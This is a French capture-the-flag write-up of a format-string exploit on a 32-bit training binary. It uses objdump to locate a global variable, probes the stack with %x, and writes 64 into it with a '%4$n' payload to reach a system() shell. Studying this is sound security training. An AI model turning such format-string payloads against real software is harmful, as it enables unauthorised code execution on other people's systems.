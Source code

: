 # Level 3

![Ghidra level3, fonction main et v](./ghidra-level3.png)

Nous avons une variable globale qui est `m`, cette variable est par défaut sur 0. L'objectif est de la modifier pour appeler le `system()`.

Nous pourrons le modifier grace à `printf` et avec la faille, pour cela nous avons besoin de l'adresse de `m`. nous utiliserons objdump et afficherons le symbol table.

```
$ objdump -t level3

level3:     file format elf32-i386

SYMBOL TABLE:
080484a4 g     F .text	00000076              v
0804983c g       .data	00000000              __data_start
00000000       F *UND*	00000000              system@@GLIBC_2.0
080483f0 g     F .text	00000000              _start
080485f8 g     O .rodata	00000004              _fp_hw
0804988c g     O .bss	00000004              m
08049880 g     O .bss	00000004              stdout@@GLIBC_2.0
```
Nous pourrons lancer le programme avec notre propre `format string` et afficher la mémoire de la stack. En commençant par trouver l'adresse / offset du paramètre.
```
$ echo "BBBB %x %x %x %x %x %x" | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825
```
Notre buffer "BBBB" est stocké en 4ème position dans la stack (B=42 "42424242")

Maintenant, nous devons changer cette adresse à l'adresse de la variable `m` ("0x804988c"), pour la changer après
```
$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```
OK bien. Nous allons maintenant utiliser le modificateur "%n" au lieu de "%x"

"%n" écrit dans l'adresse le nombre d'octets avant

Si nous faisons cela
```
$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %n'" | ./level3
```
Le nombre sera 4. Parce que notre buffer "\x8c\x98\x04\x08" est de 4 octets

On peut l'écrire comme ça pour mieux voir
```
$ python -c "print '\x8c\x98\x04\x08'+'%4$n'" | ./level3
```
Ce qui passe directement à la 4ème position et on n'est plus obligé de mettre les 3 autres "%x"

Maintenant, nous devons écrire 64 dans "m" pour passer la condition. Alors on ajoute juste 60 octets de plus
```
$ python -c 'print "\x8c\x98\x04\x08" + "B" * 60 + "%4$n"' | ./level3
�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Wait what?!
```
Nous avons juste besoin de reouvrir l'entrée standard pour accéder au sh.
```
$ (python -c 'print "\x8c\x98\x04\x08"+"B"*60+"%4$n"'; cat -) | ./level3
```
